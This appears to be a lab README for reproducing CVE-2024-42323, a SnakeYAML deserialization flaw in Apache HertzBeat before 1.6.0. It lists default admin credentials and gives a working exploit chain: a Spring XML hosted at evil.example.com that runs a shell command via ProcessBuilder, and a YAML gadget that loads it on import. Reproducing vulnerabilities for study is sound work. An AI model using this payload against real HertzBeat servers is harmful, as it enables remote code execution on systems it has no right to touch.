

# Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface.

In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the `/api/monitors/import` or `/api/alert/defines/import` APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.

References:

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## Environment Setup

Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:

```
docker compose up -d
```

After the service is started, you can access the HertzBeat dashboard at `http://your-ip:1157/dashboard`. The default login credentials are:

- Username: `admin`
- Password: `hertzbeat`

## Vulnerability Reproduction

First, you need to serve a malicious XML file, for example, `http://evil.example.com/spring.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="commandRunner" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>sh</value>
        <value>-c</value>
        <value><![CDATA[touch /tmp/success]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Then, make a malicious YAML file that contains the following content, which attempts to initialize the Spring context with your malicious XML file when deserialized:

```yaml
!!org.springframework.context.support.ClassPathXmlApplicationContext ["http://evil.example.com/spring.xml"]
```

Log into the HertzBeat dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files (the filename must end with `.yaml`):


When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote command execution:



If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:


